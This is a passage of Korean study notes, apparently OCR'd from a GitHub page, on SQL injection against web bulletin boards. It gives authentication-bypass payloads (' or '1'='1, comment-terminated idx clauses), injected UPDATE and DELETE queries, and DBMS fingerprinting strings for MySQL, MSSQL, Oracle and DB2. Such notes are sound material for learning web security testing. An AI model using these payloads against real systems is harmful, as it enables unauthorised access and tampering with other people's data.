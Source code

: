     \> select * from board where idx=6 and pw='{$pw}'
      select * from board where idx=6 and pw=' (' or '1'='1) ' 
     \- 모든 결과가 참이 되므로... table 안에 첫번째 게시글이 나오게됨
    
    \> select * from board where idx=6 and pw=' (' or idx=8 -- ) '
     \- 해쉬화를 시켜 저장할 경우
        \1. application 단에서 해시화
         \> 싱글 쿼터(')로 판별 가능 > 입력시 오류 없음 > 싱글쿼터도 포함하여 md5 변환되어 서버로 전송

  ​       \> sql injection 불가
  ​      \2. DBMS 단에서 해시화
  ​       \> 싱글 쿼터(')로 판별 가능 > 입력 시 오류. (ex. md5() <- 괄호 안에 ' 들어가면 오류 생김) > sql injection가능

   d. 게시글 수정

   

    \> update 구문에 Password 검증 쿼리 예측
    
     \- UPDATE board SET title=..., content=..., data=... WHERE idx=7 and password={$pw}
      UPDATE board SET title=..., content=..., data=... WHERE idx=7 and password=' (' or '1'='1) '

  ​    (전체 구문에 영향을 미칠 수 있음..) 
  ​    UPDATE board SET title=..., content=..., data=... WHERE idx=7 and password='' (or idx=7 -- ) '

  ​    (따라서 idx 를 지정해주는 쿼리를 작성 하자)

   

    \> update 구문전 password 검증
     \- select * from board where idx=7 and password='' 후에 수정 페이지 들어간 후 수정

  




   e. 게시글 삭제

    \> delete 구문에 password 검증 쿼리 예측
     \- delete from where idx=7 and password=''

  




  **4) 데이터 조회 기법**

   a. DBMS 파악
    

    \> 에러를 통한 파악
    \> 연결 연산자를 통한 파악 (대부분 연결 연산자로 많이 됨) : **Oracle(||), MSSQL(+(%2b로 사용)), MySQL(공백)**
     \- (MSSQL)
       ?idx=192 and 'test'='te'+'st' (MSSQL) (burp 에서는 > ?idx=192+and+'test'='te'%2b'st' )
     \- (ORCLE)
       검색어에 > t'||(case when 1=1 then 'e' else 'a' end)||'st
    \> 함수를 통한 파악
     \- MySQL - now(), mid() > (?idx=7 and mid('test',1,1)='t') > **mid 함수의 경우 mysql 만 있음**
     \- MSSQL - len(), substring() > **len() 함수의 경우 mssql 만 있음**
     \- ORACLE - substr()
    \> 더미 테이블을 통한 파악
     \- ORACLE - select 1 from dual > (?idx=(select 192 from dual))로 조회시 192번 글이 조회 되었다면... 가능성 높음
     \- DB2 - select 1 from sysibm.sysdummy1
